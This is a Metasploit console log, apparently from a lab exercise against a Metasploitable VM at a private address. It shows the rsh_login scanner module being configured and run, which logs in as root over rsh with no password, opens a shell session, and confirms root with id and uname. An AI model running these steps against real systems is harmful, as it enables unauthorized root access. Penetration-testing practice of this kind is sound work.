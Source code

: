 ## 514/tcp  open  tcpwrapped

msf6 > search rsh_login

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  auxiliary/scanner/rservices/rsh_login  .                normal  No     rsh Authentication Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/rservices/rsh_login

msf6 > use 0
msf6 auxiliary(scanner/rservices/rsh_login) > show options 

Module options (auxiliary/scanner/rservices/rsh_login):

   Name              Current Setting                                                 Required  Description
   ----              ---------------                                                 --------  -----------
   ANONYMOUS_LOGIN   false                                                           yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                               yes       How fast to bruteforce, from 0 to 5
   CreateSession     true                                                            no        Create a new session for every successful login
   DB_ALL_CREDS      false                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                           no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                            no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   ENABLE_STDERR     false                                                           yes       Enables connecting the stderr port
   FROMUSER                                                                          no        The username to login from
   FROMUSER_FILE     /usr/share/metasploit-framework/data/wordlists/rservices_from_  no        File containing from usernames, one per line
                     users.txt
   PASSWORD                                                                          no        A specific password to authenticate with
   PASS_FILE                                                                         no        File containing passwords, one per line
   RHOSTS                                                                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             514                                                             yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                           yes       Stop guessing when a credential works for a host
   THREADS           1                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                          no        A specific username to authenticate as
   USERPASS_FILE                                                                     no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                           no        Try the username as the password for all users
   USER_FILE                                                                         no        File containing usernames, one per line
   VERBOSE           true                                                            yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/rservices/rsh_login) > set rhosts 192.168.161.131
rhosts => 192.168.161.131
msf6 auxiliary(scanner/rservices/rsh_login) > set username root
username => root
msf6 auxiliary(scanner/rservices/rsh_login) > run
[*] 192.168.161.131:514   - 192.168.161.131:514 - Starting rsh sweep
[*] 192.168.161.131:514   - 192.168.161.131:514 - Attempting rsh with username 'root' from 'root'
[+] 192.168.161.131:514   - 192.168.161.131:514, rsh 'root' from 'root' with no password.
[!] 192.168.161.131:514   - No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (0.0.0.0:1023 -> 192.168.161.131:514) at 2025-02-05 02:33:42 +0530
[*] 192.168.161.131:514   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/rservices/rsh_login) > sessions 

Active sessions
===============

  Id  Name  Type   Information                               Connection
  --  ----  ----   -----------                               ----------
  1         shell  RSH root from root (192.168.161.131:514)  0.0.0.0:1023 -> 192.168.161.131:514 (192.168.161.131)

msf6 auxiliary(scanner/rservices/rsh_login) > sessions 1
[*] Starting interaction with 1...


Shell Banner:
sh: no job control in this shell
sh-3.2#
-----
          
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-3.2# uname -r
2.6.24-16-server
sh-3.2# uname
Linux
sh-3.2# uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
sh-3.2# 
